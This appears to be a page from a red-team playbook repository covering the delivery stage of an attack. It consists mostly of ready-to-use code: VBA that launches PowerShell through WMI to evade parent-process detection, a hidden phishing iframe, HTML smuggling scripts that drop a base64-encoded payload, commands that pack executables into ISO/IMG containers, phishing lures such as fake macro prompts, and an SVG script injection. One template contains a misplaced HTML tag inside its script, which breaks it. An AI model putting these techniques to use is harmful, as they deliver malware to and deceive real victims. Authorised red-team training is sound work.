 # 3 Delivery

## Table of Contents

- [Tooling](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/3-Delivery/3-Delivery.md#tooling)
- [Breack Microsoft Word Parent-Child Relationship](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/3-Delivery/3-Delivery.md#Break-Microsoft-Word-Parent-Child-Relationship)
- [Embedding hidden iFrame in Phishing Page](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/3-Delivery/3-Delivery.md#Embedding-hidden-iFrame-in-Phishing-Page)
- [HTML Smuggling](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/3-Delivery/3-Delivery.md#HTML-Smuggling)
- [PackMyPayload](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/3-Delivery/3-Delivery.md#PackMyPayload)
- [Phishing Scenarios](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/3-Delivery/3-Delivery.md#Phishing-Scenarios)
- [SVG Smuggling](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/3-Delivery/3-Delivery.md#SVG-Smuggling)

## Tooling

| Name | Description | URL |
| --- | --- | --- |
| The Social-Engineer Toolkit (SET) | The Social-Engineer Toolkit (SET) repository from TrustedSec | https://github.com/trustedsec/social-engineer-toolkit |

## Break Microsoft Word Parent-Child Releationship

```vb
Dim proc As Object
Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
proc.Create "powershell"
```

## Embedding hidden iFrame in Phishing Page

```HTML
<iframe src="<URL>" width="0" height="0" frameborder="0" tabindex="-1" title="empty" style=visibility:hidden;display:none"> </iframe>
```

## HTML Smuggling

```html
<html>
    <head>
        <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.2/css/brands.min.css">
    </head>
    <body>
        <button class="btn" onclick="downloadFile()"><i class="fa fa-download"></i> Download</button>

        <script>
            function convertFromBase64(base64) {
                let binary_string = window.atob(base64);
                let len = binary_string.length;
                let bytes = new Uint8Array(len);
                for (let i = 0; i < len; i++) {
                    bytes[i] = binary_string.charCodeAt(i);
                }
                return bytes.buffer;
            }

            function downloadFile() {
                const file = '<BASE64>';
                const fileName = '<FILE>';
                let data = convertFromBase64(file);
                let blob = new Blob([data], {type: 'octet/stream'});
                if (window.navigator.msSaveOrOpenBlob) {
                    window.navigator.msSaveBlob(blob,fileName);
                }
                else {
                    const a = document.createElement('a');
                    document.body.appendChild(a);
                    a.style = 'display: none';
                    const url = window.URL.createObjectURL(blob);
                    a.href = url;
                    a.download = fileName;
                    a.click();
                    window.URL.revokeObjectURL(url);
                }
            }
        </script>
    </body>
</html>
```

## PackMyPayload

> https://github.com/mgeeky/PackMyPayload

### Create ISO File

```console
$ python3 PackMyPayload.py /PATH/TO/FILE/<FILE>.exe /PATH/TO/FILE/<FILE>.iso
```

### Hide Files in Container

```console
$ python3 PackMyPayload.py -H <FILE>.xlsx,<FILE>.xlam /PATH/TO/FILES/ /PATH/TO/FILE/<FILE>.img
```

### Container Phishing Template

```html
<script>
    function convertFromBase64(base64) {
        let binary_string = window.atob(base64);
        let len = binary_string.length;
        let bytes = new Uint8Array(len);
        for (let i = 0; i < len; i++) {
            bytes[i] = binary_string.charCodeAt(i);
        }
        return bytes.buffer;
    }

    function downloadFile() {
        const file = '<BASE64>';
        const fileName = '<FILE>.img';
        let data = convertFromBase64(file);
        let blob = new Blob([data], {type: 'octet/stream'});
        if (window.navigator.msSaveOrOpenBlob) {
            window.navigator.msSaveBlob(blob,fileName);
        }
        else {
            const a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            const url = window.URL.createObjectURL(blob);
            <a onclick="downloadFile()" style="text-decoration: none;">
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
    }
</script>
```

## Phishing Scenarios

- `Bitwarden send link` abuse
- `Broken image` - please click to reload
- `GDPR Macro` - please enable macro to see the document content

## SVG Smuggling

```js
<svg width="100" height="100" xmlns="http://www.w3.org/2000/svg">
<circle cx="50" cy="50" r="40" stroke="black" stroke-width="4" fill="none" />
<script>
    alert('pwnd');
</script>
Sorry, your browser does not support inline SVG.
</svg> 
```

### Previous

- [2 Weaponization](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2-Weaponization.md)
- [2.1 Initial Access](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2.1-Initial-Access.md)

### Next

- [4 Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4-Exploitation.md)
- [4.1 Defense Evasion](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.1-Defense-Evasion.md)
- [4.2 Credential Dumping](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.2-Credential-Dumping.md)
- [4.3 Privilege Escalation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.3-Privilege-Escalation.md)
- [4.4 Lateral Movement](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.4-Lateral-Movement.md)
